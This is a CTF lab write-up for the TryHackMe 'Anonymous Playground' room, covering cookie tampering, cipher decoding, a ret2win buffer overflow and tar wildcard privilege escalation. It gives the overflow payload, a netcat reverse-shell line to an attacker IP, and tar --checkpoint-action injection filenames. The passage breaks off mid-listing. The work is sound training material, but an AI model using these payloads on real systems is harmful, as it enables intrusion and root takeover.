


<div align="center">


<br>


</div>

---

# TryHackMe: Anonymous Playground — In-Depth Professional Writeup

**Room Link:** [Anonymous Playground](https://tryhackme.com/room/anonymousplayground)  
**Difficulty:** Medium  
**Author:** Rhys / Operative  
**Target Platform:** Linux (Ubuntu 20.04.6 LTS / Kernel 5.15.0-139-generic, x86_64)  
**Focus Areas:** Network Reconnaissance, Insecure Cookie-Based Authorization, Custom Cryptographic Reversal, Linux Binary Exploitation (x86_64 Stack Buffer Overflow / ret2win), and Crontab Wildcard Parameter Injection (GTFOBins).

---

## Table of Contents

1. [Executive Summary](#1-executive-summary)
2. [Target Assessment & Attack Path Overview](#2-target-assessment--attack-path-overview)
3. [Phase 1: Comprehensive Reconnaissance & Service Fingerprinting](#3-phase-1-comprehensive-reconnaissance--service-fingerprinting)
4. [Phase 2: Web Application Analysis & Client-Side Auth Tampering](#4-phase-2-web-application-analysis--client-side-auth-tampering)
5. [Phase 3: Cryptanalysis & Custom Algorithm Reverse Engineering](#5-phase-3-cryptanalysis--custom-algorithm-reverse-engineering)
6. [Phase 4: Initial Foothold (SSH Access as User `magna`)](#6-phase-4-initial-foothold-ssh-access-as-user-magna)
7. [Phase 5: Lateral Movement to User `spooky` (Binary Exploitation)](#7-phase-5-lateral-movement-to-user-spooky-binary-exploitation)
   - [5.1 Binary Analysis & Security Mitigations](#51-binary-analysis--security-mitigations)
   - [5.2 Stack Frame Anatomy & Crash Analysis](#52-stack-frame-anatomy--crash-analysis)
   - [5.3 Payload Construction & Execution](#53-payload-construction--execution)
8. [Phase 6: Privilege Escalation to `root` (Tar Wildcard Parameter Injection)](#8-phase-6-privilege-escalation-to-root-tar-wildcard-parameter-injection)
   - [6.1 Cron Job Enumeration](#61-cron-job-enumeration)
   - [6.2 Root Cause: Unix Shell Globbing vs Command Arguments](#62-root-cause-unix-shell-globbing-vs-command-arguments)
   - [6.3 Checkpoint Exploitation via GTFOBins](#63-checkpoint-exploitation-via-gtfobins)
   - [6.4 Gaining the Unrestricted Root Shell](#64-gaining-the-unrestricted-root-shell)
9. [Captured Flags & Verification](#9-captured-flags--verification)
10. [Defense, Hardening & Remediation Strategies](#10-defense-hardening--remediation-strategies)

---

## 1. Executive Summary

This engagement walkthrough outlines the full compromise of the **Anonymous Playground** target machine hosted on TryHackMe. The machine models an iterative multi-tier challenge assessing skills across web penetration testing, classical cryptography reversal, x86_64 Linux binary exploitation (buffer overflow without canary), and Unix misconfiguration exploitation.

The system was fully compromised through three distinct privilege transitions:
- **Unauthenticated Attacker → User `magna`:** Exploiting broken client-side access control (cookie forgery) combined with algorithmic cryptanalysis to extract SSH plaintext credentials.
- **User `magna` → User `spooky`:** Exploiting a setuid ELF executable (`hacktheworld`) lacking stack canaries via a 72-byte buffer overflow redirecting instruction pointer control directly into a built-in shell spawning routine (`ret2win`).
- **User `spooky` → User `root`:** Exploiting a root-owned automated cron task executing `tar` with an unquoted wildcard (`*`) inside a user-writable directory, triggering arbitrary command execution via Unix parameter injection flags (`--checkpoint` and `--checkpoint-action`).

---

## 2. Target Assessment & Attack Path Overview

### Machine Matrix

| Parameter | Specification |
| :--- | :--- |
| **Target Hostname / IP** | `anonymous-playground` / `10.49.159.175` |
| **Attacking Host IP** | `192.168.142.57` |
| **Operating System** | Linux Ubuntu (kernel 5.15.0-x86_64) |
| **External Attack Surface** | TCP Port 22 (SSH), TCP Port 80 (HTTP) |
| **Target Identities** | `magna` (UID 1001), `spooky` (UID 1337), `root` (UID 0) |

### Visual Attack Flow Diagram

```text
+-----------------------+
|  External Attacker    |
+-----------+-----------+
            |
            | 1. Nmap Port Scan & robots.txt Discovery (/zYdHuAKjP)
            v
+-----------------------------------------------------------+
|  Web Service (Apache 2.4.41 on Port 80)                   |
|  - Cookie Parameter: access=denied -> access=granted     |
|  - Ciphertext Leaked: hEzAdCfHzA::hEzAd...                |
+---------------------------+-------------------------------+
                            |
                            | 2. Custom Python Decoder Script
                            |    (ord & 31 bitwise pair sum mod 26)
                            v
+-----------------------------------------------------------+
|  SSH Authentication as User: magna                        |
|  - Credentials: magna : magnaisanelephant                 |
|  - Flag 1 Retrieved: 9184177ecaa83073cbbf36f1414cc029    |
+---------------------------+-------------------------------+
                            |
                            | 3. SUID ELF Binary: /home/magna/hacktheworld
                            |    - Vulnerability: Unbounded gets() Stack Overflow
                            |    - Payload: 72-byte padding + RIP rewrite (0x400658)
                            v
+-----------------------------------------------------------+
|  Local Execution as User: spooky                          |
|  - Flag 2 Retrieved: 69ee352fb139c9d0699f6f399b63d9d7    |
+---------------------------+-------------------------------+
                            |
                            | 4. Scheduled Root Crontab:
                            |    cd /home/spooky && tar -zcf /var/backups/spooky.tgz *
                            |    - Shell Wildcard Argument Injection
                            |    - Flags: --checkpoint=1, --checkpoint-action=exec=sh
                            v
+-----------------------------------------------------------+
|  Complete Root Compromise (UID 0)                         |
|  - Flag 3 Retrieved: bc55a426e98deb673beabda50f24ce66    |
+-----------------------------------------------------------+
```

---

## 3. Phase 1: Comprehensive Reconnaissance & Service Fingerprinting

Reconnaissance began by issuing an active Nmap scan against the target IP `10.49.159.175`. We utilized:
- `-A`: Aggressive mode (enables OS detection, version scanning, script scanning, and traceroute).
- `-sS`: TCP SYN Stealth Scan.
- `-sC`: Default NSE (Nmap Scripting Engine) scripts.
- `-sV`: Thorough version probing.
- `-O`: OS fingerprinting.

```bash
sudo nmap -A -sS -sC -sV -O 10.49.159.175
```

### Complete Nmap Diagnostic Output

```text
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-28 13:12 +0530
Nmap scan report for 10.49.159.175
Host is up (0.069s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 99:c0:2a:29:3b:a0:b1:2f:77:c1:09:82:87:df:62:6d (RSA)
|   256 fc:73:e5:17:0d:5d:bc:9e:cd:be:c1:c2:0d:cb:6f:5c (ECDSA)
|_  256 81:5f:1a:8d:03:b0:b3:05:05:3d:fa:99:fb:92:66:61 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/zYdHuAKjP
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Proving Grounds
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.991%E=4%D=10/28%OT=22%CT=1%CU=44563%PV=Y%DS=3%DC=T%G=Y%TM=6AE1A
OS:76C%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=101%TI=Z%CI=Z%TS=A)SEQ(SP
OS:=102%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=105%GCD=1%ISR=107%TI=Z%CI=
OS:Z%TS=A)SEQ(SP=106%GCD=1%ISR=10C%TI=Z%CI=Z%TS=A)SEQ(SP=108%GCD=1%ISR=10F%
OS:TI=Z%CI=Z%TS=A)OPS(O1=M4E8ST11NW7%O2=M4E8ST11NW7%O3=M4E8NNT11NW7%O4=M4E8
OS:ST11NW7%O5=M4E8ST11NW7%O6=M4E8ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W
OS:5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M4E8NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y
OS:%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%
OS:T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD
OS:=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE
OS:(R=N)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 3 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   72.00 ms 192.168.128.1
2   ...
3   77.41 ms 10.49.159.175

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.93 seconds
```

### Enumeration Takeaways
1. **OpenSSH 8.2p1 (Port 22):** Standard Ubuntu build (`4ubuntu0.13`). There are no known pre-auth remote code execution exploits against this specific patch; valid credentials will be required for foothold.
2. **Apache 2.4.41 (Port 80):** A live web service titled "Proving Grounds".
3. **Information Leak in `robots.txt`:** The NSE script automatically flagged a disallowed uniform resource identifier: `/zYdHuAKjP`.

---

## 4. Phase 2: Web Application Analysis & Client-Side Auth Tampering

We query the web server root and inspect `robots.txt`:

```bash
curl -s http://10.49.159.175/robots.txt
```

```text
User-agent: *
Disallow: /zYdHuAKjP
```

Navigating to `http://10.49.159.175/zYdHuAKjP/` in a browser returns an access restricted page stating that access is denied.

### Inspecting Browser Cookies & Session Storage

Opening browser Developer Tools (`F12` or `Ctrl+Shift+I`) and selecting **Storage → Cookies → http://10.49.159.175**:



A persistent session cookie is present:
- **Cookie Name:** `access`
- **Assigned Value:** `denied`
- **Path:** `/`
- **HttpOnly:** `False`
- **Secure:** `False`

### Tampering with the State

Because the web application relies on client-side state enforcement rather than validating cryptographic session tokens server-side, the cookie is directly mutable.

1. Double-click the `Value` field for `access` in the Developer Tools table.
2. Replace `denied` with `granted`.
3. Refresh the web page (`F5` or `Ctrl+R`).



Upon re-sending the request with `Cookie: access=granted`, the application bypasses the check and returns:

```html
<h1>Access granted.</h1>
<p>Well done getting this far. But can you go further?</p>
<p>hEzAdCfHzA::hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN</p>
```

---

## 5. Phase 3: Cryptanalysis & Custom Algorithm Reverse Engineering

The output format follows standard Unix credential syntax:
$$\text{Username Ciphertext} :: \text{Password Ciphertext}$$

$$\text{User String: } \texttt{hEzAdCfHzA} \quad (10 \text{ characters})$$
$$\text{Pass String: } \texttt{hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN} \quad (34 \text{ characters})$$

### Deconstructing the Encryption Mechanics

Analyzing the ciphertext components:
1. **Alternating Capitalization:** The string exhibits a strict pattern of lowercase followed by uppercase characters:
   $$\text{Pair}_0 = (h, E), \quad \text{Pair}_1 = (z, A), \quad \text{Pair}_2 = (d, C), \quad \text{Pair}_3 = (f, H), \quad \text{Pair}_4 = (z, A)$$
2. **Length Equivalence:** The username string contains 10 characters, which cleanly divides into 5 pairs. Common Linux system usernames typically span 4 to 8 characters. Five characters represents a plausible user identifier.
3. **Alphabet Mapping Logic:** In ASCII:
   - Uppercase `'A'` to `'Z'` spans decimal `65` to `90` (`01000001` to `01011010` in binary).
   - Lowercase `'a'` to `'z'` spans decimal `97` to `122` (`01100001` to `01111010` in binary).
   - Applying a bitwise AND with `31` (`00011111` in binary) strips the upper ASCII case flags and isolates the lower 5 bits, mapping both `'A'`/`'a'` to `1`, `'B'`/`'b'` to `2`, ..., `'Z'`/`'z'` to `26`:
     `Pos(c) = ord(c) & 31`
4. **Modulo Transformation:**
   For each adjacent pair $(c_{2k}, c_{2k+1})$:
   $$\text{Sum}_k = (\text{Pos}(c_{2k}) + \text{Pos}(c_{2k+1})) \pmod{26}$$
   The resulting value is converted back to an alphabet character by adding base ASCII offset 64 (or 96) and converting to lowercase:
   $$\text{Char}_k = \text{chr}(\text{Sum}_k + 64).\text{lower}()$$

### Step-by-Step Manual Trace for Username (`hEzAdCfHzA`)

| Step | Pair | Chars | Positions (`ord & 31`) | Sum | Modulo 26 | Character ($\text{chr}(\text{val}+64)$) |
| :---: | :---: | :---: | :---: | :---: | :---: | :---: |
| 1 | $(c_0, c_1)$ | `h`, `E` | $8, 5$ | $8 + 5 = 13$ | $13 \pmod{26} = 13$ | `M` (`m`) |
| 2 | $(c_2, c_3)$ | `z`, `A` | $26, 1$ | $26 + 1 = 27$ | $27 \pmod{26} = 1$ | `A` (`a`) |
| 3 | $(c_4, c_5)$ | `d`, `C` | $4, 3$ | $4 + 3 = 7$ | $7 \pmod{26} = 7$ | `G` (`g`) |
| 4 | $(c_6, c_7)$ | `f`, `H` | $6, 8$ | $6 + 8 = 14$ | $14 \pmod{26} = 14$ | `N` (`n`) |
| 5 | $(c_8, c_9)$ | `z`, `A` | $26, 1$ | $26 + 1 = 27$ | $27 \pmod{26} = 1$ | `A` (`a`) |

$$\text{Decoded Username} = \mathbf{magna}$$

Notice that the password begins with the exact same prefix `hEzAdCfHzA` (`magna`), followed by:
- `hA` $\rightarrow 8 + 1 = 9 \rightarrow$ `i`
- `iJ` $\rightarrow 9 + 10 = 19 \rightarrow$ `s`
- `zA` $\rightarrow 26 + 1 = 27 \pmod{26} = 1 \rightarrow$ `a`
- `eI` $\rightarrow 5 + 9 = 14 \rightarrow$ `n`
- `aD` $\rightarrow 1 + 4 = 5 \rightarrow$ `e`
- `jB` $\rightarrow 10 + 2 = 12 \rightarrow$ `l`
- `cB` $\rightarrow 3 + 2 = 5 \rightarrow$ `e`
- `hH` $\rightarrow 8 + 8 = 16 \rightarrow$ `p`
- `gA` $\rightarrow 7 + 1 = 8 \rightarrow$ `h`
- `zA` $\rightarrow 26 + 1 = 27 \pmod{26} = 1 \rightarrow$ `a`
- `fH` $\rightarrow 6 + 8 = 14 \rightarrow$ `n`
- `fN` $\rightarrow 6 + 14 = 20 \rightarrow$ `t`

$$\text{Decoded Password} = \mathbf{magnaisanelephant}$$

### Automated Reversal Script

```python
#!/usr/bin/env python3
"""
TryHackMe - Anonymous Playground
Author: Operative
Script: decoder.py
Purpose: Reconstruct plaintext credentials from pair-sum modulo ciphertext.
"""

import sys

def solve_cipher(ciphertext: str) -> str:
    # Validate character stream is strictly even
    if len(ciphertext) % 2 != 0:
        raise ValueError(f"Ciphertext length must be even. Got {len(ciphertext)}.")
    
    # Extract lower 5 bits (alphabetical index 1-26)
    indices = [(ord(char) & 31) for char in ciphertext]
    
    output = []
    for i in range(0, len(indices), 2):
        pair_sum = (indices[i] + indices[i + 1]) % 26
        # Account for edge case where modulo results in 0 (representing 'z' / 26)
        if pair_sum == 0:
            pair_sum = 26
        output.append(chr(pair_sum + 96)) # 96 is base for lowercase ('a' is 97)
    
    return "".join(output)

def main():
    raw_blob = "hEzAdCfHzA::hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN"
    user_part, pass_part = raw_blob.split("::")
    
    username = solve_cipher(user_part)
    password = solve_cipher(pass_part)
    
    print("=" * 60)
    print(f"[*] Raw Token:       {raw_blob}")
    print(f"[+] Solved Username: {username}")
    print(f"[+] Solved Password: {password}")
    print(f"[+] SSH Command:     ssh {username}@10.49.159.175")
    print("=" * 60)

if __name__ == "__main__":
    main()
```

Executing the script:

```bash
python3 decoder.py
```

```text
============================================================
[*] Raw Token:       hEzAdCfHzA::hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN
[+] Solved Username: magna
[+] Solved Password: magnaisanelephant
[+] SSH Command:     ssh magna@10.49.159.175
============================================================
```

---

## 6. Phase 4: Initial Foothold (SSH Access as User `magna`)

With confirmed credentials (`magna`:`magnaisanelephant`), connect via SSH:

```bash
ssh magna@10.49.159.175
```

Authenticate using the password `magnaisanelephant`.

### Local System Enumeration & Flag 1

```bash
magna@ip-10-49-159-175:~$ id
uid=1001(magna) gid=1001(magna) groups=1001(magna)
magna@ip-10-49-159-175:~$ pwd
/home/magna
magna@ip-10-49-159-175:~$ ls -la
total 64
drwxr-xr-x 7 magna  magna  4096 Jul 10  2020 .
drwxr-xr-x 6 root   root   4096 Oct 28 07:34 ..
lrwxrwxrwx 1 root   root      9 Jul  4  2020 .bash_history -> /dev/null
-rw-r--r-- 1 magna  magna   220 Jul  4  2020 .bash_logout
-rw-r--r-- 1 magna  magna  3771 Jul  4  2020 .bashrc
drwx------ 2 magna  magna  4096 Jul  4  2020 .cache
drwxr-xr-x 3 magna  magna  4096 Jul  7  2020 .config
-r-------- 1 magna  magna    33 Jul  4  2020 flag.txt
drwx------ 3 magna  magna  4096 Jul  4  2020 .gnupg
-rwsr-xr-x 1 root   root   8528 Jul 10  2020 hacktheworld
drwxrwxr-x 3 magna  magna  4096 Jul  4  2020 .local
-rw-r--r-- 1 spooky spooky  324 Jul  6  2020 note_from_spooky.txt
-rw-r--r-- 1 magna  magna   807 Jul  4  2020 .profile
drwx------ 2 magna  magna  4096 Jul  4  2020 .ssh
-rw------- 1 magna  magna   817 Jul  7  2020 .viminfo
magna@ip-10-49-159-175:~$ 
```

Read User Flag 1:

```bash
magna@ip-10-49-159-175:~$ cat flag.txt
9184177ecaa83073cbbf36f1414cc029
```

---

## 7. Phase 5: Lateral Movement to User `spooky` (Binary Exploitation)

### 7.1 Binary Analysis & Security Mitigations

Inspecting `note_from_spooky.txt`:

```bash
magna@ip-10-49-159-175:~$ cat note_from_spooky.txt
Hey Magna,

Check out this binary I made!  I've been practicing my skills in C so that I can get better at Reverse
Engineering and Malware Development.  I think this is a really good start.  See if you can break it!

P.S. I've had the admins install radare2 and gdb so you can debug and reverse it right here!

Best,
Spooky
```

Inspecting the file properties and permissions of `hacktheworld`:

```bash
magna@ip-10-49-159-175:~$ ls -l hacktheworld
-rwsr-xr-x 1 root root 8528 Jul 10  2020 hacktheworld

magna@ip-10-49-159-175:~$ file hacktheworld
hacktheworld: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=..., not stripped
```

Checking compiler hardening protections (using GDB / checksec or objdump):

```text
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      SYMBOLS
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   73 Symbols
```

Key observations:
1. **No Stack Canary:** No random canary value inserted between local variables and the saved return address. Unbounded stack writes directly overwrite saved frame records.
2. **No PIE (Position Independent Executable):** The binary code sections are mapped at deterministic virtual memory addresses (base `0x400000`). Function addresses remain static across runs.
3. **NX (No-Execute) Enabled:** The stack is non-executable; shellcode cannot be injected directly onto the stack. We must redirect execution flow to an existing function or ROP gadget chain.

### 7.2 Stack Frame Anatomy & Crash Analysis

Opening the binary with `gdb -q ./hacktheworld` or examining disassembly with `objdump -d -M intel ./hacktheworld`:

```bash
objdump -d -M intel ./hacktheworld | grep -E "(<main>|<call_bash>):" -A 25
```

```text
magna@ip-10-49-159-175:~$ objdump -d -M intel ./hacktheworld | grep -E "(<main>|<call_bash>):" -A 25
0000000000400657 <call_bash>:
  400657:	55                   	push   rbp
  400658:	48 89 e5             	mov    rbp,rsp
  40065b:	48 8d 3d 36 01 00 00 	lea    rdi,[rip+0x136]        # 400798 <_IO_stdin_used+0x8>
  400662:	e8 a9 fe ff ff       	call   400510 <puts@plt>
  400667:	bf 01 00 00 00       	mov    edi,0x1
  40066c:	e8 ef fe ff ff       	call   400560 <sleep@plt>
  400671:	48 8d 3d 33 01 00 00 	lea    rdi,[rip+0x133]        # 4007ab <_IO_stdin_used+0x1b>
  400678:	e8 93 fe ff ff       	call   400510 <puts@plt>
  40067d:	bf 01 00 00 00       	mov    edi,0x1
  400682:	e8 d9 fe ff ff       	call   400560 <sleep@plt>
  400687:	48 8d 3d 2c 01 00 00 	lea    rdi,[rip+0x12c]        # 4007ba <_IO_stdin_used+0x2a>
  40068e:	e8 7d fe ff ff       	call   400510 <puts@plt>
  400693:	bf 01 00 00 00       	mov    edi,0x1
  400698:	e8 c3 fe ff ff       	call   400560 <sleep@plt>
  40069d:	48 8d 3d 29 01 00 00 	lea    rdi,[rip+0x129]        # 4007cd <_IO_stdin_used+0x3d>
  4006a4:	e8 67 fe ff ff       	call   400510 <puts@plt>
  4006a9:	bf 01 00 00 00       	mov    edi,0x1
  4006ae:	e8 ad fe ff ff       	call   400560 <sleep@plt>
  4006b3:	48 8d 3d 26 01 00 00 	lea    rdi,[rip+0x126]        # 4007e0 <_IO_stdin_used+0x50>
  4006ba:	e8 51 fe ff ff       	call   400510 <puts@plt>
  4006bf:	bf 39 05 00 00       	mov    edi,0x539
  4006c4:	e8 87 fe ff ff       	call   400550 <setuid@plt>
  4006c9:	48 8d 3d 33 01 00 00 	lea    rdi,[rip+0x133]        # 400803 <_IO_stdin_used+0x73>
  4006d0:	e8 4b fe ff ff       	call   400520 <system@plt>
  4006d5:	90                   	nop
--
00000000004006d8 <main>:
  4006d8:	55                   	push   rbp
  4006d9:	48 89 e5             	mov    rbp,rsp
  4006dc:	48 83 ec 50          	sub    rsp,0x50
  4006e0:	89 7d bc             	mov    DWORD PTR [rbp-0x44],edi
  4006e3:	48 89 75 b0          	mov    QWORD PTR [rbp-0x50],rsi
  4006e7:	48 8d 3d 1d 01 00 00 	lea    rdi,[rip+0x11d]        # 40080b <_IO_stdin_used+0x7b>
  4006ee:	b8 00 00 00 00       	mov    eax,0x0
  4006f3:	e8 38 fe ff ff       	call   400530 <printf@plt>
  4006f8:	48 8d 45 c0          	lea    rax,[rbp-0x40]
  4006fc:	48 89 c7             	mov    rdi,rax
  4006ff:	b8 00 00 00 00       	mov    eax,0x0
  400704:	e8 37 fe ff ff       	call   400540 <gets@plt>
  400709:	b8 00 00 00 00       	mov    eax,0x0
  40070e:	c9                   	leave  
  40070f:	c3                   	ret    

0000000000400710 <__libc_csu_init>:
  400710:	41 57                	push   r15
  400712:	41 56                	push   r14
  400714:	49 89 d7             	mov    r15,rdx
  400717:	41 55                	push   r13
  400719:	41 54                	push   r12
  40071b:	4c 8d 25 ee 06 20 00 	lea    r12,[rip+0x2006ee]        # 600e10 <__frame_dummy_init_array_entry>
  400722:	55                   	push   rbp
  400723:	48 8d 2d ee 06 20 00 	lea    rbp,[rip+0x2006ee]        # 600e18 <__do_global_dtors_aux_fini_array_entry>
```

#### Calculating the Offset to RIP

1. `main` places the destination buffer at `[rbp - 0x40]` (hex `0x40` = 64 bytes).
2. The `gets()` call does not enforce a length boundary, allowing user input to overflow beyond the 64-byte boundary.
3. The x86_64 stack frame layout relative to the base pointer is:
   - `[rbp - 0x40]` to `[rbp - 0x01]`: 64 bytes of local buffer space.
   - `[rbp + 0x00]` to `[rbp + 0x07]`: 8 bytes containing the caller's Saved Base Pointer
      (`Saved RBP`).
   - `[rbp + 0x08]` to `[rbp + 0x0F]`: 8 bytes containing the Saved Return Instruction
      Pointer (`Saved RIP`).

<br>

Offset to Saved RIP = 64 bytes (buffer) + 8 bytes (saved RBP) = 𝟕𝟐 bytes

#### Target Function Address

According to the disassembly, the target function call_bash has two possible entry addresses:

- `0x0000000000400657` (`push rbp`)
- `0x0000000000400658` (`mov rbp, rsp`)

Under the standard x86_64 Linux System V AMD64 ABI, the stack must be 16-byte aligned before calling library routines like system(). Overwriting the saved instruction pointer directly with 0x400658 bypasses the initial push rbp prologue instruction, preventing a movaps alignment fault during the downstream system("/bin/sh") execution.

  Converted to 64-bit Little-Endian byte representation:
`\x58\x06\x40\x00\x00\x00\x00\x00`

### 7.3 Payload Construction & Execution

To prevent the spawned shell from closing immediately when standard input reaches EOF, chain the payload with `cat` using shell grouping `( ... ; cat )`:

```bash
(python -c 'print "A"*72 + "\x58\x06\x40\x00\x00\x00\x00\x00"'; cat) | ./hacktheworld
```

```text
Who do you want to hack? 
We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.
```

Execution transfers to `call_bash`, invokes `setuid(0x539)` (UID 1337 / `spooky`), and drops into a shell under the `spooky` user context.

To upgrade to a fully interactive TTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Verify the identity and retrieve Flag 2:

```bash
spooky@ip-10-49-159-175:~$ id
id
uid=1337(spooky) gid=1001(magna) groups=1001(magna)
spooky@ip-10-49-159-175:~$ whoami
whoami
spooky
spooky@ip-10-49-159-175:~$ cd /home/spooky
cd /home/spooky
spooky@ip-10-49-159-175:/home/spooky$ ls -la
ls -la
total 36
drwxr-xr-x 4 spooky spooky 4096 Jul 10  2020 .
drwxr-xr-x 6 root   root   4096 Oct 28 07:34 ..
lrwxrwxrwx 1 root   root      9 Jul  4  2020 .bash_history -> /dev/null
-rw-r--r-- 1 spooky spooky  220 Jul  4  2020 .bash_logout
-rw-r--r-- 1 spooky spooky 3771 Jul  4  2020 .bashrc
-rwxrwxrwx 1 spooky magna     0 Jul 10  2020 .confrc
-r-------- 1 spooky spooky   33 Jul  4  2020 flag.txt
drwxrwxr-x 3 spooky spooky 4096 Jul  5  2020 .local
-rw-r--r-- 1 spooky spooky  807 Jul  4  2020 .profile
drwx------ 2 spooky spooky 4096 Jul  8  2020 .ssh
-rw-rw-r-- 1 spooky magna   535 Jul 10  2020 .webscript
spooky@ip-10-49-159-175:/home/spooky$ cat flag.txt
cat flag.txt
69ee352fb139c9d0699f6f399b63d9d7
```

**User 2 Flag:** `69ee352fb139c9d0699f6f399b63d9d7`

---

## 8. Phase 6: Privilege Escalation to `root` (Tar Wildcard Parameter Injection)

### 8.1 Cron Job Enumeration

To identify internal automated maintenance tasks running as root, inspect the system-wide crontab:

```bash
spooky@ip-10-49-159-175:/home/spooky$ cat /etc/crontab
```

```text
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/1 *   * * *	root	cd /home/spooky && tar -zcf /var/backups/spooky.tgz *
```

### 8.2 Root Cause: Unix Shell Globbing vs Command Arguments

Notice the entry:
```bash
*/1 * * * *   root    cd /home/spooky && tar -zcf /var/backups/spooky.tgz *
```

#### How Shell Globbing Works
When `/bin/sh` evaluates `tar -zcf /var/backups/spooky.tgz *`, the asterisk (`*`) is **not** received by `tar` as a literal character. Instead:
1. The shell lists all non-hidden filenames in `/home/spooky`.
2. The filenames are sorted alphabetically and substituted into the command line string before `tar` is executed:
   ```text
   tar -zcf /var/backups/spooky.tgz file1 file2 file3 ...
   ```
3. If a file begins with `--` (hyphens), GNU `tar` treats that filename as a **command-line flag / option** rather than a positional file target.

### 8.3 Checkpoint Exploitation via GTFOBins

GNU `tar` provides debug and progress monitoring parameters:
- `--checkpoint=N`: Triggers an action every $N$ archive records (defaulting to 10 KiB blocks).
- `--checkpoint-action=exec=COMMAND`: Instructs `tar` to execute an arbitrary system command via `/bin/sh` whenever a checkpoint threshold is reached.

Because `/home/spooky` is owned by user `spooky`, we can create arbitrary files in this directory. When root's cron job executes, the wildcard expands our crafted filenames as options executed under root's privilege context (`UID 0`).

### 8.4 Gaining the Unrestricted Root Shell

#### Step 1: Craft the Reverse Shell Script
In `/home/spooky`, create `shell.sh` configured to connect back to the attacker's listener on port `9001`:

```bash
cd /home/spooky
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.142.57 9001 >/tmp/f" > shell.sh
chmod +x shell.sh
```

#### Step 2: Inject the Tar Parameters as Filenames
Create zero-byte files matching the required options:

```bash
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > "--checkpoint=1"
```

Verify directory contents:

```bash
spooky@ip-10-49-159-175:/home/spooky$ ls -la
ls -la
total 48
drwxr-xr-x 4 spooky spooky 4096 Oct 28 09:35  .
drwxr-xr-x 6 root   root   4096 Oct 28 07:34  ..
lrwxrwxrwx 1 root   root      9 Jul  4  2020  .bash_history -> /dev/null
-rw-r--r-- 1 spooky spooky  220 Jul  4  2020  .bash_logout
-rw-r--r-- 1 spooky spooky 3771 Jul  4  2020  .bashrc
-rw-rw-r-- 1 spooky magna     1 Oct 28 09:35 '--checkpoint=1'
